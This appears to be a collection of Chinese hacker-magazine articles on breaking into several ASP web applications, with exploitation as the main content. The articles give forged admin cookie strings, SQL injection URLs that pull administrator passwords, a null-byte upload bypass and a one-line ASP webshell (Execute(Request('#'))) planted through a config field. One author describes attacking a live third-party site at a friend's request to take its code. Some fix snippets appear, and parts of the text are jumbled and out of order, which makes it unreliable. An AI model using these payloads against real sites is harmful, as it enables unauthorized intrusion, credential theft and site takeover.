## 系统前后台均现Cookies漏洞

Cookies欺骗漏洞虽然已经出现很久了，但总有程序员不以为意。下面我们先来看一下其前台login.asp和user.asp中的相关代码。

```asp
====== login.asp中部分代码 ======
userip=request.ServerVariables("HTTP_X_FORWARDED_FOR")
if userip="" Then
  userip=Request.ServerVariables("REMOTE_ADDR")
end if
rsper("ip")=userip
rsper.update
Response.cookies("cnmai")("username")=rsper("username")
Response.cookies("cnmai")("domain")=Request.ServerVariables("SERVER_NAME")
Response.cookies("cnmai")("per")=rsper("username")
Response.cookies("cnmai")("vip")=rsper("vip")
Response.cookies("cnmai")("id")=rsper("id")
Response.Redirect "user.asp"
...
====== user.asp中部分代码 ======
dim rs,sqlm,username
username=request.cookies("cnmai")("username")
'// 获取用户名，以得到的用户名来检索数据库
```

```asp
====== admin_chklogin.asp中部分代码 ======
Response.cookies("admincnmai")("username")=rs("username")
Response.cookies("admincnmai")("max")=rs("max")
Response.cookies("admincnmai")("domain")=Request.ServerVariables("SERVER_NAME")
...
Response.Redirect "index.asp"

====== cookies.asp中部分代码 ======
if Request.ServerVariables("SERVER_NAME")<>request.cookies("admincnmai")("domain") then
  response.redirect "admin_login.asp"
end if
if request.cookies("admincnmai")("username")="" or request.cookies("admincnmai")("domain")="" then
  response.redirect "admin_login.asp"
end if

====== cookies1.asp中部分代码 ======
if request.cookies("admincnmai")("max")<>1 then
  ...
end if
response.write "<SCRIPT language=JavaScript>alert('您是非特级管理员，无该项的管理权限!');</SCRIPT>"
response.write "<meta http-equiv=refresh content='0;URL=main.asp'>"
end if
```


图3

从上面的代码可以看出，在admin_chklogin.asp中，如果管理员用户名和密码正确，则写入Cookies；在cookies.asp中验证了Cookies是否为空，如果为空，则重新登录；在cookies1.asp中根据Cookies中的max值验证是否为特级管理员。和前面一样，代码没有对Cookies进行任何处理，就用Cookies中的数据来检索数据库，所以也存在Cookies欺骗。

## 实战入侵前台

明白了Cookies漏洞的存在之后，我们可以进入实战阶段，首先我们来入侵前台。这里我使用了一款Cookies浏览器（随本文资料已经提供），可以直接修改Cookies，如图2所示。


图2


图4

我们在二手网站上注册一个用户，然后使用Cookies浏览器登录。登录之后，就可以看到一串如“cnmai=id=32&vip=0&per=iamgood&domain=2s%2Ecnmai%2Ecom&username=iamgood”的Cookie值。这就是我用用户名“iamgood”登录之后的Cookies值，我们可以替换其中的username，达到冒名发帖的目的。将username改为“health10”，这样，我们就轻而易举地进入了health10的管理界面，就可以冒名发帖和管理他人信息了，如图3所示。我们也可以修改其中的“vip=0”为“vip=1”，使自己成为VIP会员，如图4所示。

## 实战入侵后台

从代码上可以看出，后台的入侵和前台差不多，也是修改Cookies的值就可以了。不同的是Cookies的项名，但我们可以从代码上看出项名分别为admincnmai、username和max。据此，可以将Cookies直接改为“admincnmai=id=32&vip=0&max=1&per=admin&domain=2s%2Ecnmai%2Ecom&username=admin”，然后点击Cookies浏览器中的“Modify”按钮，接着在地址栏中输入网站系统的后台管理地址`http://2s.cnmai.com/46/admin460/`，这样我们就进入了二手网系统的后台管理界面，拥有和特级管理员一样的权限，包括用户管理、信息管理和网站参数设置等，如图5所示。


图5

## 实战上传木马——一波三折

进入后台并不是最终目的，我们的最终目的是控制整个网站，这就要用到ASP木马了。我们通过前台的上传图片功能以及后台的数据库备份功能来获得我们的ASP木马，如图6和图7所示。


首先将一个ASP木马的后缀名改为gif，然后通过图片上传功能上传，将这条图片信息发布，就可以得到这个图片（其实是ASP木马）的地址；接着来到后台的数据库备份，在“当前数据库路径（相对路径）”处输入ASP木马图片的地址，在“备份数据库名称”中输入mm.asp就可以了。本来这样的思路是没有错的，但在上传ASP木马图片时，却出现了问题，如图8所示。


原来在Upfile.asp中，系统对上传文件进行了检测，如果代码中含有“<%”和“script”字符，就视为木马病毒，具体代码如下。

```asp
if instr(LCase(my_string),"<%")<>0 or instr(LCase(my_string),"<?")<>0 or instr(LCase(my_string),"Request")<>0 or instr(LCase(my_string),"Session")<>0 or instr(LCase(my_string),"script")<>0 then
  dim muma
  muma=1
  Response.Write "<script language='javascript'>alert('你上传木马病毒，上传失败');</script>"
end if
```

从代码中可以看到，程序只限制了“<%”。本以为可以将ASP木马中的“<%”改为“< %”（中间加空格），但这条路走不通。这时想到了“一句话木马”：发帖时只需输入一句话木马，然后在后台备份数据库为ASP文件，同样可以达到上传ASP木马的目的，如图9所示。这里可以直接利用一句话木马，不需要自己去构造数据了，图10为我得到的ASP木马入口。


## 漏洞修补

Cnmai二手信息发布系统虽然并不直接对外开放程序的源代码，但网上此系统的修改版很多，在百度中输入“inurl:asp?cnmai”可以搜索到4720篇，其中大部分都存在问题，包括官方网站，如图11所示。


通过以上入侵，我们发现，仅仅使用Cookies认证是不够的，但可以用Session加Cookies双重认证来解决这一问题。因为Session是保存在服务器端的，所以就不存在被欺骗了。具体方法为：在用户登录创建Cookies时，同时创建一个和用户名相关的Session，如`Session("flag")=rs("username")`；然后在每一个页面都判断这个`Session("flag")`的值，这样一来，基本就可以解决问题了。

- 适合读者：入侵爱好者
- 前置知识：SQL基础

## 剖析3AS新闻系统0.45 Access Finish版


## 攻防战

文 / 图 Cschi

## 谈点

- 目标/角色：沸腾3AS新闻系统0.45 Access Finish版
- 兵器/装备：NC，WSockExpert，WinHex等

长话短说，由于某种原因我对该新闻系统代码进行了一次浅析，总体感觉代码编写得有条理，可读性好，但有些冗余，也有些疏忽。在防注入方面对注册用户过于信任，未做过多防范；加之登录验证为Cookies方式，给Cookies欺骗提供了用武之地。不多说了，免得有“眼高手低”之嫌，毕竟作者是写，我们只是看而已！

读代码总过于枯燥，我们就模拟远攻近战方式对该系统的攻防进行阐述。为了方便描述，对无需用户便可利用的我们称为“远攻”，对需要注册用户登录后方可利用的我们称为“巷战”，对需要超级用户方可利用的我们可称为“攻陷”。另外，若无特别说明，凡是提到“IE地址栏输入网址”均指“http://127.0.0.1/”（本机测试）的相对地址。

## 远攻

漏洞1：admin/uploadfaceok.asp上传漏洞。  
攻击：该文件位于admin目录内，按理起码应为用户登录后才能访问，但实际上忽略了chkuser.asp包含文件，可被任意访问。由uploadface.asp提交给uploadfaceok.asp文件的路径变量filepath未过滤，导致漏洞出现。详细的代码分析略过，这里只简单说明一下如何利用。在IE地址栏内输入uploadface.asp，浏览“选择需要上传的ASP木马，不改扩展名！这里并不要求成功上传，只是抓包而已。运行WSockExpert监听该网页，然后‘上传’。抓Post包另存为txt文件，再用WinHex修改filepath变量值“../uploadfile/face”为“../uploadfile/1.asp*”（*为十六进制00），修改filename变量值中的扩展名为Gif等，最后用NC提交即可挂马。如果提交一句话木马，由于如下的代码中有文件最小限制，可给一句话木马用单引号加些注释，使得抓的包长度不小于100即可。”

```asp
if iFilesize<100 then
  response.write "<span style='font-family:宋体;font-size:9pt'>请选择你要上传的图片 [<a href=# onclick=history.go(-1)>重新上传</a>]</span>"
  response.end
end if
```

防范：给uploadface.asp和uploadfaceok.asp添加包含文件，如“<!--#include file='chkuser.asp'-->”，只允许注册用户访问该页面；同时在uploadfaceok.asp接受filepath变量时过滤特殊符号，如“formPath=replace(upload.form("filepath"),"..","")”。

漏洞2：admin/chklogin.asp接受login.asp提交的username变量时未过滤。  
攻击：在网页根目录的chklogin.asp对username变量用chkstr函数进行过滤，但不知为何在此却未做过滤，可能是疏忽了吧，但这却导致了致命的隐患。关键代码如下。

```asp
UserName1=request.form("UserName")
passwd1=md5(trim(request.form("passwd")))

set rs=server.createobject("adodb.recordset")
sql="select * from admin where username='"&username1&"'" //(1)
rs.open sql,conn,1,3
if passwd1<>rs("passwd") or verifycode<>session("verifycode") then //(2)
  '错误处理
else
  response.cookies("UserName")=RS("UserName") //(3)
  response.cookies("passwd")=rs("passwd")
  conn.execute("delete from uploadpic where username='"&request.cookies("username")&"'")
  response.redirect "index.asp" //(4)
end if
```

我们构造如下的Union语句（过程略）：

```sql
'union select 1,passwd as username,49ba59abce56e0574,*,28 from admin where UserName=base
```

说明：第一个单引号用于闭合代码中的单引号，并让第一个select语句返回空集，username='';

49ba59abbe56e057为123456的MD5值，base为默认的超级管理员名，或想获得PassWD值（密码）的用户名，注意右边无单引号，让代码中的单引号闭合。

分析代码执行过程：在admin/login.asp中的用户名处输入构造的Union语句，密码为123456，并正确输入验证码，提交后会返回username值为base用户的密码，PassWD值为123456的rs结果集……可通过抓包与Cookies数据进一步获取用户密码并扩展攻击。

图1

防范：用chkstr、InStr函数过滤并判断username变量，并限制username变量长度。可在相关语句前插入校验代码，避免通过“粘贴”构造Union语句或修改提交包绕过限制。

```asp
IF len(request.form("UserName"))>10 or InStr(request.form("UserName"),"'") then
  response.write "<script>alert('用户名过长或非法用户名')</script>"
  history.back()
  response.end
END IF
```

### 漏洞3：admin/saveuser.asp未判断用户注册功能是否被管理员关闭，对提交的purview、oskey等关键变量未限制；对username变量过滤，但未过滤depid变量

- 尽管admin/adduser.asp中对注册功能开关做了判断，但admin/saveuser.asp接收提交变量时未判断，导致可绕过关闭限制注册用户。
- 关键变量未限制会导致可直接注册为超级管理员。
- depid变量未过滤，存在注入风险，建议增加类型校验。

```asp
purview=request.form("purview")   '改为 purview="selfreg"
oskey=request.form("oskey")       '改为 oskey="selfreg"
jingyong=request.form("jingyong") '改为 jingyong=1
' 仅允许默认新注册用户
```

```asp
IF not ISNumeric(request.form("depid")) then
  response.write "<Script>alert('非法参数');history.back()</script>"
  response.end
END IF
```

### 漏洞4：包含文件chkuser.asp未过滤隐式变量Request.cookies("KEY")、Request.cookies("username")和Request.cookies("passwd")

在admin目录中部分文件包含chkuser.asp进行用户验证，但仍有若干文件未进行同等合法性判断，形成可利用面（如boardtextbox.asp、depmanage.asp、listnews.asp、newsadd*.asp、newsclassedit*.asp、newsdel.asp、newsedit*.asp、upload*.asp等）。

## 脚本攻防 / SCRIPT ATTACK&DEFENCE

根目录下的textbox.asp等文件。攻击以boardtextbox.asp为例。我们先分析chkuser.asp，代码如下。

```asp
<%IF not(Request.cookies("KEY")="super" or Request.cookies("KEY")="check" or Request.cookies("KEY")="typemaster" or Request.cookies("KEY")="bigmaster" or Request.cookies("KEY")="smallmaster" or Request.cookies("KEY")="fcltreg") THEN
    response.redirect "login.asp"
    response.end
END IF

' 此处 Request.cookies("KEY") 未过滤...
set urs=server.createobject("adodb.recordset")
sql="select * from admin where username='"&Request.cookies("username")&"'"
' 此处 Request.cookies("username") 未过滤...
urs.open sql,conn,1,3
if urs.bof or urs.eof then
    response.redirect "login.asp"
    response.end
end if
If Request.cookies("passwd")<>urs("passwd") THEN
    response.redirect "login.asp"
    response.end
END IF
urs.close
set urs=nothing%>
```

我们构造如下的Union语句（可以向IE提交正常语句，用WSockExpert抓包得到）：

```text
%27+union+select+1%2C2%2C%2749ba59abbc56e057%27%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2C15%2C16%2C17%2C18%2C19%2C20%2C21%2C22%2C23%2C24%2C25%2C26%2C27%2C28+from+admin+where+UserName%3D%27base
```

攻击分析：我们先抓Get包，以超级管理员身份登录（KEY='super'），在地址栏输入 `http://127.0.0.1/admin/boardtextbox.asp?Action=modify&id=1`，执行后抓到Get包（图2），复制为TXT文件，再将UserName改为构造的Union语句，Passwd与语句中的值一致，最后用NC提交，返回正常页面说明通过了chkuser.asp验证（图3）。

由于boardtextbox.asp的id变量未过滤，所以继续修改Get包文件头，构造Union语句：`1 union select 1,2,passwd as Content,4,5,6 from admin where username='base'`，再用NC提交，base用户的密码即可到手。

图2

图3

是充分发挥你的想象，利用上面提到的那些文件的注入点了！

防范：用CheckStr函数过滤Request.cookies("passwd")变量，代码如下。

```asp
<!-- #include file="char.inc"--> ' 插入包含文件
<%
...
sql="select * from admin where username='"&CheckStr(request.cookies("UserName"))&"'"
' 用 CheckStr 函数过滤 request.cookies("UserName")
...
%>
```

或者限制用户名长度，不允许包含单引号，在chkuser.asp中插入如下代码即可。

```asp
IF len(request.cookies("UserName"))>10 or InStr(request.cookies("UserName"),"'") THEN
    response.write "<script>alert('用户名过长或非法用户名');history.back();</script>"
    response.end
END IF
```

## 查缺

### 漏洞5：admin/save.asp（“个人资料”页面）中的depid变量未过滤

虽然可利用该漏洞将个人所属部门修改为指定用户密码的MD5码，但最终因无法获取而成为鸡肋。

要进行一下防范，因为并不排除会遇到手工注入的狠角色。防范很简单，用 `IsNumeric` 函数过滤即可，前面曾提到过。

### 漏洞6：textbox.asp 中的 newID 未过滤

攻击：很明显，数字型变量 `newID` 未过滤就直接放入 SQL 语句执行，并在页面上显示出返回集的值 `rs("Content")`，代码如下。

```asp
<%
if request("action")="modify" Then
  set rs=server.createobject("adodb.recordset")
  sql="select * from news where newsid="&newsid
  rs.open sql,conn,1,1
  If Not rs.Eof Then
    Content=rs("Content")
  End If
  Response.Write Content
End if
%>
```

这样注入就很简单了，在 IE 地址栏输入如下语句便可以获得 base 用户的密码了。

```text
http://.../textbox.asp?Action=modify&newsID=0%20union%20select%20...,passwd...%20from%20admin%20where%20username='base'
```

防范：还是用 `IsNumeric` 函数过滤！

### 漏洞7：admin/newsadd1.asp 中的 bigclassname、smallclassname 变量未过滤

攻击：此漏洞比较隐蔽，构造 Union 语句时需要注意的地方较多，下面就详细说明一下利用过程。代码如下。

```asp
<%if smallclassid<>"" then  ' (1)
...
else
  <%if bigclassid="" then   ' (2)
...
  set rs1=server.createobject("adodb.recordset")
  sql1="select * from bigclass where bigclassid="&bigclassid
  rs1.open sql1,conn,1,3
  bigclassname=rs1("bigclassname")   ' (3)
  set rs2=server.createobject("adodb.recordset")
  sql2="select * from type where typeid="&rs1("typeid")   ' (4)
  rs2.open sql2,conn,1,3
  ...                                  ' (5)
%>
```

分析代码：为了利用比较方便，让 `smallclassid=""`，语句(1)执行后跳至语句(2)。这时我们可以为 `bigclassid` 变量构造 Union 语句。由于 `[bigclass]` 表共7个字段，且 `bigclassid` 为数字型，所以Union语句大体为：`0 union select 1,2,3,4,5,6,7 from admin where username='base'`。语句(3)将 `bigclassname` 变量从 `rs1` 的第5个字段中取出，语句(5)将其显示在页面，这样将上面Union语句的第5位换为 `passwd` 即可注出密码。语句(4)中的 `rs1("typeid")` 是第6个字段，为了让 `rs2` 正常返回，该字段值应为 `type` 表中存在的 `typeid` 值，否则会返回错误。可在“栏目导航”处取得一个有效 `typeid`（如11）。此外，Union默认按第一个字段升序排序，也要注意这一点。一般当 `bigclassid=0` 时，`sql1='select * from bigclass where bigclassid='&bigclassid` 返回空集，此时 `rs1` 实际为第二个select查询结果，因此可构造Union注入语句。

图4

```text
http://127.0.0.1/admin/newsadd1.asp?typeid=11&bigclassid=1%20union%20select%200,2,3,4,passwd,11,7%20from%20admin%20where%20username='base'%20
```

防范：用 `IsNumeric` 函数过滤 `bigclassname`、`smallclassname` 变量。另外，此文件也仅利用 `chkuser.asp` 包含文件进行用户验证，会导致被任意访问。

## IX路

能以超级管理员身份登录，那么网页的注入点就不重要了，关键是如何夺权——挂马！该系统除了前面提到的 `uploadfaceok.asp` 上传漏洞可以挂马外，还存在 `config.asp` 配置文件直接挂马的漏洞。

### 漏洞8：admin/depmanage.asp 的 deptype 变量未过滤，同时也是仅利用 chkuser.asp 包含文件进行用户验证

攻击：此漏洞很明显，代码及分析略，直接给出构造的Union语句：`0 union select 1,passwd,3 from admin where username='base'`，便可获得base的密码。我们还可以构造Cookies的username值，不用登录直接注出base的密码。

防范：用 `IsNumeric` 函数过滤deptype变量，同时修改chkuser.asp包含文件。

### 漏洞9：inc/config.asp配置文件直接挂马

攻击：由于将部分“网站属性设置”参数未经过滤就直接保存在inc/config.asp文件中，导致该文件成为网马的载体。如图5所示：比如将“上传文件大小”的值2000改为 `2000"%><%If Request("#")<>"" Then Execute(Request("#"))%>` 并提交，修改成功后，inc/config.asp文件就成为海洋一句话木马了！需要说明的是，不正确的语句将导致网站属性设置、文件上传等功能出错而无法访问！

防范：过滤写入该文件的所有变量，在admin/systemsave.asp文件中插入如下代码。

```asp
if not IsNumeric(request("MaxFileSize")) or InStr(request("UpFileType"), chr(34)) or InStr(request("byteType"), chr(34)) or InStr(request("basemenu"), chr(34)) then
    response.write "<script>alert('非法参数');history.back()</script>"
    response.end
end if
```

## 论战

原本我只是想简单分析一下，谁知一发而不可收拾，竟然写了这么多。回过头来总体看，该系统关键的漏洞有三个：一是用户验证不严密，如chklogin.asp、chkuser.asp文件未过滤username变量，甚至uploadfaceok.asp、saveuser.asp等关键文件根本就没验证用户；二是对注册用户过于信任（多个文件存在注入）；三是config.asp配置文件直接挂马，uploadfaceok.asp存在上传漏洞。至于防范的关键，上面已经说得很清楚了，只要严密用户验证、关闭用户注册，这样系统就安全多了，必要的话还可进一步防注入、防止挂马。另外，文中还提到了一些存在注入漏洞的文件未做分析，就留给大家吧！总之，我们实战攻击，提高防范，攻防兼备！

## 对目标站点的探测分析

到底功较载蛰于WebShell

前几天，一个朋友让我弄一个站，他说想要那个站的源码，让我尽快搞定。刚好早早返回了学校，比较空闲，于是就答应了下来，结果就有了下文。

## 探测分析

一看目标网站，感觉很熟悉，不过记不起来是什么程序了。随便打开供求信息的链接 `http://www.xxx.com/showtradeinfo.asp?id=10`，在后面加了一个 `'`，报错，如图1所示；继续提交 `http://www.xxx.com/showtradeinfo.asp?id=10 and 1=1`，返回正常页面，再提交 `http://www.xxx.com/showtradeinfo.asp?id=10 and 1=2`，又报错了。据此，我初步判断存在SQL注入漏洞。为了节省时间，直接用Domain3.6进行注入，如图2所示，得到了用户名和MD5密码。继续扫描后台，无功而返，用啊D扫描也没有结果，最后猜了几个后台也没成功，都闷！

看来得找源程序看看了。我把网页拉到最下，想看看是否能得到一些有用的信息，结果版权信息全部改掉了。既然这个地方没有，那就再找找在线帮助，查看是否有可利用的信息，结果仍然是无功而返。再提交 `http://www.xxx.com/readme.txt` 和 `http://www.xxx.com/robots.txt`，为什么提交这两个URL呢？一般来说，如果程序是从网上下载的，都会附带readme.txt这个文件，里面有详细介绍程序的结构和使用方法；另一个是因为robots.txt是一种存放于网站根目录下的ASCII编码的文本文件，它通常告诉网络搜索引擎的漫游器此网站中的哪些内容是不能被搜索引擎的漫游器获取的，哪些可以被获取。而一般情况下，管理员可能会将一些比较敏感的信息放在这个文件里，比如后台地址、数据库地址等。不过很可惜，仍然失败了。既然这样，那只能出最后的“杀手锏”了——定位特殊页。

看到前面的URL没有？showtradeinfo.asp不是什么常见的页面，应该可以拿来定位。在百度搜索“inurl:showtradeinfo.asp”，返回如图3所示，有六万多篇，相信基本都改掉了版权，所以又重新定位“powered by inurl:showtradeinfo.asp”，可惜百度找不到结果。这样的话，我就得一个个地去找，直到找到没有改版权的网站，这个工程巨大，不适合我这种懒人，继续找特殊文件。右键点击商品分类的链接，查看其属性，如图4所示，它也是比较特殊的文件，在百度定位“inurl:procat.asp”，返回如图5所示。看到没有？第一个“时代网联信息科技——商品快速分类——Powered by 时代商城购物系统”，是时代购物，哈哈！

图1

图3

图2

图4

图5

从这里可以得知这套程序用的应该是时代购物的程序。后来查了一下，时代购物的后台应该是admin，那么这套程序的后台是修改了。我们知道，和这套程序同一版本的程序存在注入漏洞，因此，在百度里搜索“时代购物漏洞”、“时代购物注入漏洞”，返回如图6所示，从中我们可以看到“时代购物系统 Ver4.5漏洞”的字眼，继续搜索定位，在百度中搜索“时代购物系统 Ver4.5漏洞”，返回如图7所示。看来已经有高手做出了动画教学，我在黑白下载了教程，然后根据其方法拿下了不少的WebShell，教程的下载地址是 `http://www.heibai.net/vip/download/show.php?`id=5945，有兴趣的朋友可以看一下。虽然本文没有什么技术，主要利用了搜索引擎，但大家要知道，入侵是一种艺术，一种思路；思路灵活变通就能成功！

- 适合读者：入侵爱好者
- 前置知识：ASP

## 飞越统计系统

文／图 珞珈凤凰

来武汉半年了，终于成功转入了信息安全专业，一阵欣喜后，去教务处的网站查看新课表，无意间发现了如图1所示的飞越统计系统。

```asp
if vuser="" then
  error1=1
  error2=error2&"用户名必须填写;"
end if
if len(vuser)>12 then
  error1=1
  error2=error2&"用户名不要超过12位;"
end if
if vpass="" then
  error1=1
  error2=error2&"密码必须填写;"
end if
if len(vpass)>12 then
  error1=1
  error2=error2&"密码不要超过12位;"
end if
if vuser1="" then
  error1=1
  error2="站长名称必须填写;"
end if
if len(vuser1)>12 then
  error1=1
  error2=error2&"站长名称不要超过12位;"
end if
```

初步看了一下，整个系统使用ASP编写，2003年就发布了，感觉上会有比较多的漏洞，于是上网查了关于这个系统的漏洞，结果什么也没发现。于是下载了一套该系统，自己分析起来了，果真发现了几个漏洞。

## 登录漏洞

在reg.asp文件中，其第41～80行的代码如下。

```asp
error1=1
error2=error2&"主页名称必须填写;"
end if
if vurl="" then
  error1=1
  error2=error2&"主页地址必须填写;"
end if
if len(vcontent)>250 then
  error1=1
  error2=error2&"主页简介不要超过250位;"
end if
if startcount="" then
  error1=1
  error2=error2&"用本系统前的统计数字必须填写;"
end if
```

```asp
set rs=conn.execute(sql)
if not rs.eof then
  fweek1=rs("fweek1")
else
  fweek1=0
end if
%>
```

由于同一个变量view（该变量是用户名的值）在两个句子中都出现了，所以构造注入的时候就要两个句子一起考虑。我构造的注入代码如下：

```text
http://127.0.0.1/fyday.asp?view=1''+and+'a'='b'+or+exists(select+*+from+home)+or+'a'='b
```

为什么要这么构造呢？第一个or之前的构造成false（'a'='b'是不等的），第二个or之后的也构造成false，所以只要其中有一个是true的话，就会返回正常，否则会返回失败，这样就避免了变量view在两个语句中位置不同而造成的不同情况了。由于home是默认的表名，所以返回是成功的，如图3所示。如果表名不正确就会出现错误信息，如图4所示。

这段代码除了对输入的变量位数做了一定限制，再没有任何安全措施，而在userlist.asp中又直接引用了上述变量，如下面的第117行代码，这样跨站就形成了，如图2所示。

图2

```asp
<td height="22" width="50%" bgcolor=<%=bgcolor1%> class=tdc align="left" colspan="5"><a href='<%=rs("vurl")%>' target=_blank title="点击进入查看用户网站"><%=rs("vurl")%></a></td>
```

## 注入漏洞

在看完全部文件后，觉得作者还是有点安全意识的，在登录页面，如adminadmin.asp和login.asp文件中，作者都过滤了引号。可惜在其他页面，如fyday.asp、fyhour.asp和fymonth.asp却没有对变量做严格过滤，这样就形成了注入漏洞。下面以fymonth.asp为例进行说明，其第71～80行的代码如下。

```asp
<%
sql="select count(fid) as alldayweek from fcount where fyear='"&fyear&"' and fuser='"&view&"'"
set rs=conn.execute(sql)
maxalldayweek=rs("alldayweek")
if maxalldayweek=0 then maxalldayweek=1
set rs=nothing
rcount=0
for i=1 to 12
  sql="select count(*) as fweek1 from fcount where fyear='"&fyear&"' and fuser='"&view&"' and fmonth='"&i&"' group by fmonth"
next
%>
```

图3

图4

> 手工注入猜测字符的时候，即使输入 `'+and+'a'='b'+or+exists(select+*+from+home+where+abs(asc(mid(homebanzhu,1,1)))>0)+or+'a'='b` 返回的页面还是出错，这是因为用户名是汉字的缘故。汉字的ASCII码范围更大，可以采用取绝对值的方法继续猜测。

## Cookies 验证漏洞

说来奇怪，该系统已经使用了Session，不过在后台登录竟然还是用Cookies验证。在admin.asp文件中，其第13～21行的代码如下。

```asp
<% if Request.Cookies(feiyuetongji)("Username")="" then
  response.Redirect "loginadmin.asp?action=error"
end if
if request("view")<>"" then
  view=request("view")
  url1="?view="&view&"&"
else
  url1="?"
end if %>
```

这段代码首先判断Username是否为空，如果非空，就登录成功，否则失败。这样就给了我们构造Cookies的机会。Cookies可以如下构造：`feiyue=Password=LSL&Username=LSL`。之后用NC或者可修改Cookies的浏览器提交，如图5所示。此时，原来的“超级管理”变成了“管理资料”，点击“管理资料”就成功登录了后台，如图6所示。

通过过滤掉引号来解决，在conn.asp文件中第23和24行之间加入代码`view=replace(view,"'","")`即可。跨站漏洞可以将“<”和“>”转化为“&lt;”和“&gt;”来解决，并在reg.asp的第96和97行之间插入如下代码，后台也可以做相同处理，以免被插入一句话木马。

在后台，我们可以备份数据库，只要在注册的地方或者后台“站点名称”等栏目中插入一句话木马，通过备份数据库为ASP文件，再连接该ASP文件，即可轻松拿到WebShell。

```asp
vuser=replace(vuser,"<","&lt;")
vuser=replace(vuser,">","&gt;")
vbanzhu=replace(vbanzhu,"<","&lt;")
vbanzhu=replace(vbanzhu,">","&gt;")
vpass=replace(vpass,"<","&lt;")
vpass=replace(vpass,">","&gt;")
vurl=replace(vurl,"<","&lt;")
vurl=replace(vurl,">","&gt;")
vtitle=replace(vtitle,"<","&lt;")
vtitle=replace(vtitle,">","&gt;")
vemail=replace(vemail,"<","&lt;")
vemail=replace(vemail,">","&gt;")
startcount=replace(startcount,"<","&lt;")
startcount=replace(startcount,">","&gt;")
vcontent=replace(vcontent,"<","&lt;")
vcontent=replace(vcontent,">","&gt;")
```

至于Cookies验证漏洞，可以将Cookies中Password和Username与数据库中的Password和Username作判断，将admin.asp、adminadmin.asp、edituser.asp、top.asp和userlist.asp文件中的代码“if Request.Cookies(feiyuetongji)("Username")<>"" then”全部改成如下的代码即可。

## 后记

在Google中输入“统计——飞越统计系统”搜索，结果发现使用该统计系统的网站还是很多的，如图7所示，许多网站的访问量也是不错的。现在许多站长都忽视这些小系统，从而导致被黑，这点应该得到管理员的注意。千里之堤，万不可溃于蚁穴啊！

最后，我再说一下漏洞的修补。注入漏洞可以：

```asp
sql="select * from home"
set rs=conn.execute(sql)
if Request.Cookies(feiyuetongji)("Username")<>rs("homebanli") and Request.Cookies(feiyuetongji)("UPassword")<>rs("homepassword") then
```

至此，漏洞就全部补完了，如有哪位高人又发现了该系统的新漏洞，可以到黑防论坛与我一起交流，我的ID是珞珈凤凰。

- 适合读者：入侵爱好者
- 前置知识：SQL基础

#### 公版开源程序安全的伤与痛

##### 南方企业网站管理系统漏洞分析

文/图 翼帆

从某种意义上来说，开源软件推动了软件业的发展，程序的作者从开源角度来共同完善程序和自身能力的提高，而使用者从开源中可以发现一些问题，学习到经典的编程思路，从而提高自己的编程水平。我也曾写过一些开源软件，比如“翼帆CMS文章管理系统”“ESCMS企业网站管理系统”，这些各大源码网站都有下载，而且很多公司都在使用中。我从大量的使用者中发现程序中存在的问题，并通过不同层次的使用人群不断发现程序的不足之处，一直在处理不同的人对程序的适应性和上手的难易度，在不断的测试和完善后，程序逐渐走向完善、完美。其实，让一个不懂电脑的人去研究你的程序，他所用的时间和你程序的质量成反比，他上手用的时间越少，就说明你的程序越成功。当然，在这里说这些有点跑题，今天我只是谈谈开源化软件在代码编写的安全方面的痛痒之处！开源，意味着所有的源代码向使用者开放，意味着程序开发者可以修改为自己想要的功能，但是正因为所有的源代码全部分开，所以程序的安全也就大打折扣，一点小小的马虎和不慎，便会引起可怕的后果。由于公版程序的使用者众多，一旦出现安全问题，后果可想而知。我今天就以南方企业网站管理系统为例来分析一下该程序存在的安全问题。

```asp
UserName=session("UserName")
end if
if UserName="" then
  if Action="" then
    response.redirect("UserServer.asp")
  else
    FoundErr=True
    ErrMsg=ErrMsg & "<br><li>参数不足!</li>"
  end if
end if
if FoundErr=true then
  call WriteErrMsg()
else
  Set rsUser=Server.CreateObject("Adodb.RecordSet")
  sqlUser="select * from [User] where UserName='" & UserName & "'"
  rsUser.Open sqlUser,conn,1,3
  if rsUser.bof and rsUser.eof then
```

因为平时学习的需要，我收集了很多网上的商业版企业管理系统，以便从大量成熟商业程序的分析中学习些经典的编程经验，但偏偏就是这么无意，浏览南方数据企业网站管理系统V10.0的源代码时，竟然发现了这套程序存在诸多安全问题，多个页面未进行过滤导致SQL注入，而且此漏洞V10.0以下版本中均存在。

我们先看看UserEdit.asp这个文件，以下是其部分源代码。

```asp
dim Action,UserName,FoundErr,ErrMsg
dim rsUser,sqlUser
Action=trim(request("Action"))
UserName=trim(request("UserName"))
if UserName="" then
```

此文件的功能用于用户前台修改资料，从第四行代码“UserName=trim(request("UserName"))”可以看出，UserName用户名的值是通过提交得来的，而后面的三行：

```asp
if UserName="" then
  UserName=session("UserName")
end if
```

却是如果UserName的值为空，则赋值为session("UserName")，这里我就搞不懂了，作者为什么要这么写，直接用后面的这个判断不就可以吗？是作者有意留下后门还是？我不得而知。

从后面的代码分析我们可以看到，UserName从获取值到执行SQL语句并未进行任何过滤，此时我们可以利用浏览器来提交UserName的值构成注入，从而获得管理员密码，详细方法如下。

我是未登录前台直接测试的，如图1所示，提交  
`http://localhost/1/UserEdit.asp?username=admin`，  
可以看到返回了正常信息并可以直接修改用户admin的资料。其实我们从程序代码不难看出这样的结果，但是为了验证，我们还是测试一下。

图1

图2

分析到了这里，再构建SQL注入就是很方便的事情了。我采用手动注入，并把每一步骤写出来，提供给和我一样的小菜们练练手。

```text
http://localhost/1/UserEdit.asp?username=admin%20'%20and%20'='
```

返回正常，说明我们前面看到的都是真实的，确实可以注入。

进行第一步，因为我们知道管理员表是admin，所以直接构建如下的SQL语句。

```text
http://localhost/1/UserEdit.asp?username=admin' and exists(select * from Admin))
```

提交这样的SQL查询语句，返回明显是错误的，原因是有个未闭合的引号，这在字符型注入的时候尤其要注意。

```text
http://localhost/1/UserEdit.asp?username=admin' and exists(select * from Admin)) and ' ' = '
```

我们用“'='”来闭合后面未关闭的引号，结果返回正常，说明注入的第一步已经成功了。接下来我们要猜解admin表的ID，以获得其UserName和Password字段的值。

```text
http://localhost/1/UserEdit.asp?username=admin' and exists(select id from Admin where id=1) and ' ' = '
```

返回正常说明管理员的ID为1。

```text
http://localhost/1/UserEdit.asp?username=admin' and exists(select id from Admin where len(username)=5) and ' ' = '
```

我们利用上面的语句来测试管理员用户名的长度。因为默认是admin，我也未修改管理员名称，所以返回还是正常，这说明管理员长度为5。如果返回是未找到用户，就需要多次修改长度来测试。成功得到长度之后，我们开始漫长的猜解过程。

```text
http://localhost/1/UserEdit.asp?username=admin' and exists(select id from Admin where left(username,1)='a') and ' ' = '
```

